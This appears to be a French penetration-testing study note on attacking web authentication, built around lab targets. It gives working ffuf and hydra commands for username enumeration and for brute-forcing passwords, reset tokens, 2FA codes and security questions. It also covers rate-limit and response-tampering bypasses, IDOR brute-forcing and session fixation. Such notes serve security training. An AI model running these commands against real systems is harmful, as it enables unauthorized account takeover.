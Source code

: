 

### 3 types d'Authentification

1. Knowledge-based Authentication (password, pin...) -> Social engineering, bruteforce, data breach
2. Ownership-based Authentication (yubikey, Authenticator, Token, badge) -> Sensible aux vols et aux copies
3. Inherence-based Authentication (biométrie) -> Data Breach -> compromission a vie (empreinte, visage etc...)


- [ ] [[#Default Credentials]]
- [ ] [[#Brute Force]]
- [ ] [[#Vulnerable Password Reset]]
- [ ] [[#Bypass d'Authentification]]
- [ ] [[#Attaques sur sessions]]

---
# Default Credentials

Tester les default creds dans un premier temps

Resources:

https://www.cirt.net/passwords
https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials
https://github.com/scadastrangelove/SCADAPASS/blob/master/scadapass.csv
https://github.com/ihebski/DefaultCreds-cheat-sheet/tree/main

# Brute Force

## Enumération d'utilisateurs

réponse différente si le user indiqué existe ou non 

#FFUF

```bash
ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```

#HYDRA

```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt <ip> -s <port> http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials" -I -f -V
```

## Enumération d'utilisateurs via Side-Channel Attacks

temps de réponse différent si le user indiqué existe ou non 


## Bruteforce de password

[[Login BRUTE FORCE]]


## Bruteforce de password #ResetToken

Créer un compte sur l'application et demander un token de réinitialisation de mot de passe afin de l'analyser. Puis faire une nouvelle requête avec le compte cible avant de le bruteforce.

```bash
ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

## Bruteforce #2FA codes

1. Générer wordlist -> [[Wordlists & Rules#SEQ]]

2. Bruteforce

```bash
ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

## Weak Brute-Force Protection

### Rate Limits

Limite le nombre de requêtes

Si Header HTTP ==X-Forwarded-For==, randomiser la valeur peut permettre de bypasser la rate limit (qui se base sur l'IP).

### Captcha

Vérifier si le captcha n'est pas présent dans l'inspecteur d'élément

Tester des open-source CAPTCHA solvers

---
# Vulnerable Password Reset

## Guessable Password Reset Questions

Wordlist de villes

https://github.com/datasets/world-cities/blob/main/data/world-cities.csv

```bash
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
```

Bruteforce avec ffuf

```bash
ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."
```

## Manipulating the Reset Request

Etudier les requêtes et voir si paramètres cachés modifiables.


---

# Bypass d'Authentification

## Direct Access

> [!TIP]
> Tester d'accéder à des ressources non autorisées en modifiant le statut de la réponse dans BURP

Intercepter réponses aux requêtes avec burp et changer le ==302 Found== en ==200 OK== par exemple

## Parameter Modification

> [!TIP]
> Lié à des problèmes d'autorisation tels que IDOR (Insecure Direct Object Reference)

Si possible de s'authentifier directement avec un paramètre tel que user_id= , possible de bruteforcer le paramètre pour trouver un compte administrateur.

```bash
ffuf -w tokens.txt -u 'http://94.237.49.98:51125/admin.php?user_id=FUZZ' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.49.98:51125/' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=8h9q1ivv39isqgg8hqtlblf8g1' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' -fr "Could not load admin data."
```


---

# Attaques sur sessions

## Session Tokens

> [!TIP]
> Si chiffrement utilisé faible (token court, ou données statiques ne randomisant pas assez le token -> entropy insuffisante)
> 
> Capturer plusieurs token pour les analyser

exemples :

```
2c0c58b27c71a2ec5bf2b4b6e892b9f9
2c0c58b27c71a2ec5bf2b4546092b9f9
2c0c58b27c71a2ec5bf2b497f592b9f9
2c0c58b27c71a2ec5bf2b48bcf92b9f9
2c0c58b27c71a2ec5bf2b4735e92b9f9
```

```
141233
141234
141237
141238
141240
```

Décoder cookie Base64

```bash
echo -n dXNlcj1odGItc3RkbnQ7cm9sZT11c2Vy | base64 -d
```

## Session Fixation

> [!TIP]
> Générer un cookie de session et forger une requête avec ce cookie de session afin de l'envoyer à la victime.
> Il sera par la suite possible d'hijacker la session de la victime grâce au cookie en question
> Les tokens de sessions doivent être regénérés aléatoirement après chaque authent réussie pour prévenir l'attaque
> Un token doit également avoir un timeout afin de faire expirer la session





